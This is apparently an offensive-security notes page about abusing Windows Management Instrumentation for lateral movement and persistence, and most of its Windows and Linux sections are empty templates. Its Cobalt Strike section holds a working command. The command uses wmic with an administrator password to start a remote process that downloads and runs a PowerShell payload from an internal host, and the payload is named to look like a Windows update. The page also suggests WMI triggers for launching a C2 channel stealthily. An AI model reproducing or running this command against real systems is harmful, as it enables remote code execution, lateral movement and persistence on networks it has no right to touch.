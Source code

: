 ### Technical Overview
Windows Management Instrumentation (WMI) is Microsoft's implementation of the Web-Based Enterprise Management Model and can be used for a wide variety of tasks.

Since WMI has remoting capabilities, it can also be used for lateral movement. WMI used to be very hard to detect, but since sysmon introduced several event ID's that log WMI actions it is not as stealth as it once was.
###### OPSEC
WMI is loved by adversaries since it can be used as a trigger based mechanism to execute arbitrary code and is therefore an ideal persistence mechanism. 
- For example, trigger a C2 channel when the computer has been turned on for at least 1 hour.

# C2 - Cobalt Strike

## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```powershell
shell wmic /NODE:fs01 /user:"FS01\Administrator" /password: "sup3rs3cr3tP@ssw0rd!!" process call create "powershell IEX ((new-object net.webclient).downloadstring('http://10.130.4.100:8888/WindowsUpdate'))"
```
![[Pasted image 20240412003731.png]]
---
# Windows
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```

----
# Linux
## Overview 

```markdown
```
## Enumeration 

```markdown
```

## Exploitation 

```markdown
```
